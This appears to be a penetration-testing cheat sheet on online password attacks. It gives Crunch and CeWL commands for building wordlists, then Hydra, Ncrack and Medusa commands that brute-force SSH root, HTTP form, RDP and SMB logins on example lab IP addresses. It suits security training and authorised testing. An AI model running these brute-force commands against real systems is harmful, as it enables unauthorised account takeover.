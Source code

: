 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

```
crunch [min] [max] [characterset] -t [pattern] -o [output filename]
```

```
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

```
./crunch 1 1 -p pen test lab
```

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

```
./crunch 6 6 0123456789 -b 1mb -o START
```

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

```
./crunch 3 3 -f charset.lst lalpha -o START -c 20
```

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

```
./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
```

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

```
cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org
```

## Bruteforce

### Hydra

```
hydra -l username -p passwordlist.txt [target (ip address and port)]
```

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

```
hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh
```

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

> `hydra -L \[username list\] -P \[password list\] 192.168.1.10 \[form parameters\]\[failed login message\]`

#### SMB Bruteforce

> `hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%282%29.png)

{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

> `ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35`

#### SMB Bruteforce

> `ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

> `medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`

